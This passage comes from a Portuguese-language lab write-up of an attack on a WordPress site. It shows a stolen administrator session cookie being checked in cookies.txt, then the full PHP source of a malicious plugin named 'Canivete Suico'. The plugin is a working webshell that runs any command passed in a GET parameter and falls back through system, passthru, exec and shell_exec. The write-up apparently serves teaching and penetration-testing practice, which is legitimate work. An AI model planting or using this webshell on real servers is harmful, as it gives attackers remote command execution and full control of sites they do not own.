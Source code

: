 ### 2.2 - A Prova do Sucesso

Imediatamente após a execução do comando, o conteúdo do arquivo `cookies.txt` foi verificado para confirmar o sucesso do exploit.

```bash
cat cookies.txt
```
O resultado foi inequívoco. O arquivo continha o cookie `wordpress_logged_in_...`, a chave necessária para o acesso administrativo total.
![Cookie de Admin no cookies.txt](Images/04-cookie.png.png)

Com o cookie de administrador em mãos, o acesso ao painel estava garantido, e o caminho para a execução remota de código (RCE) estava aberto.

---

---

## 💻 Fase 3: Execução Remota de Código (RCE) via Plugin

Com a sessão de administrador garantida pelo `cookies.txt`, o próximo objetivo era transformar esse acesso em uma shell no servidor. A estratégia foi criar e fazer o upload de um plugin malicioso que funcionasse como um webshell.

### 3.1 - O Plugin "Canivete Suíço"

A experiência durante o laboratório sugeriu que funções comuns de execução de comando, como `system()`, poderiam estar desabilitadas na configuração do PHP do servidor. Para garantir o sucesso, foi necessário criar um plugin mais robusto, apelidado de "Canivete Suíço".

A lógica deste plugin é tentar usar, em sequência, várias funções de execução de comando (`system`, `passthru`, `exec`, `shell_exec`) até encontrar uma que não esteja bloqueada.

O código do plugin (`canivete.php`) foi o seguinte:

```php
<?php
/*
Plugin Name: Canivete Suico
*/
if(isset($_GET['cmd'])) {
    if(function_exists('system')) {
        system($_GET['cmd']);
    } elseif(function_exists('passthru')) {
        passthru($_GET['cmd']);
    } elseif(function_exists('exec')) {
        exec($_GET['cmd'], $output);
        print_r($output);
    } elseif(function_exists('shell_exec')) {
        echo shell_exec($_GET['cmd']);
    } else {
        echo 'Nenhuma funcao de comando disponivel.';
    }
}
?>
```
